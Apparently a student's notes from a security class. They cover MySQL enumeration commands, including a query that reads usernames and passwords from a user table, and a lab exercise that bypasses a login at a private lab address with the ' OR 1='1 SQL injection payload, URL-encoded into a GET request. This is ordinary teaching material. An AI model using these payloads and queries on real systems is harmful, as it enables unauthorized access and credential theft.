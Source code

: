 # Commands



```
mysql
> help
> show databases ;
> use information_schema ; 
> show tables ;
> show columns from columns ;
> select table_schema,table_name,column_name from information_schema.columns ;
   * Golden Statement ^
> use session ;
> show tables ;
> show tables from session ;
  * when not using a specific database 
> select username,passwd,studentID from session.userinfo ;
> select name,cost,color from session.car ; 
> select name,size,cost from session.Tires
>
>
>
>

```


## default databases:
information_schema: the database that holds all the information pertaining to all the databases.
mysql
performance_schema



## Data structures we will be interacting with:
databse
tables
columns 

----------------------------------------------------------------------------------------------------------

  SQL Injection Validation Exercise ()
http://10.50.36.14

```
' OR 1='1
```
* insert both into the input fileds:
  - User:
  - Pass:

* Inspect the page
  - Network
    - POST request
      - Request

* Append the the value in the request filed to the end of the URL:
  ex:
```
  http://10.50.36.14/login.php
  + username=%27+OR+1+%3D%271&passwd=%27+OR+1+%3D%271
  so...
 http://10.50.36.14/login.php?username=%27+OR+1+%3D%271&passwd=%27+OR+1+%3D%271
```


